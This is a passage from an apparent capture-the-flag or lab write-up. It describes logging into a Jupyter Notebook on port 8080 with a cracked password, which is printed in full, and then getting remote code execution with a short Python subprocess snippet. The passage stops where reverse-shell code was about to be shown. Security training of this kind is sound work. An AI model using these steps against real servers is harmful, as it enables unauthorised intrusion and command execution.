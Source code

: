 ![](writeupfiles/Untitled%204.png)

The cracked password was: `ak1je3Bai8noo9soo3fo` as shown above.

After cracking the password, we navigated to port 8080 which was a login screen for an open-source web application called Jupyter Notebook. The above password was used to obtain access to the application.

Jupyter Notebook is something I have played around with in the past but never in a malicious way. After printing something simple like **Hello World**, I tried something more useful like asking the server `whoami`. After playing around with some of the Python code, we were able to obtain RCE

```python
from subprocess import getoutput
getoutput("whoami")
```

![](writeupfiles/Untitled%205.png)

After a short amount of time, we turned RCE into a reverse shell by utilizing the below code
